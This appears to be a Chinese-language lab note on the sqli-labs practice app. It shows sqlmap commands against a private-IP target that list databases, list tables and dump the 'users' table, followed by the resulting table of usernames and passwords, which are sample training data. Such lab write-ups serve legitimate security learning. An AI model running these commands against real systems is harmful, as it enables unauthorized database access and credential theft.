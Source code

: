 - cmd执行``sqlmap -u "http://192.168.77.131/master/Less-1/?id=1" --dbs``显示数据库

![image-20240819194143079](./assets/image-20240819194143079.png)

![image-20240819194242489](./assets/image-20240819194242489.png)

- ``sqlmap -u "http://192.168.77.131/master/Less-1/?id=1" -D security --tables``显示表名

```cmd
Database: security
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |
+----------+
```

- ``sqlmap -u "http://192.168.77.131/master/Less-1/?id=1" -D security -T users -C username,password --dump`` 导出数据库

```cmd
Table: users
[13 entries]
+----------+------------+
| username | password   |
+----------+------------+
| Dumb     | Dumb       |
| Angelina | I-kill-you |
| Dummy    | p@ssword   |
| secure   | crappy     |
| stupid   | stupidity  |
| superman | genious    |
| batman   | mob!le     |
| admin    | admin      |
| admin1   | admin1     |
| admin2   | admin2     |
| admin3   | admin3     |
| dhakkan  | dumbo      |
| admin4   | admin4     |
+----------+------------+
```
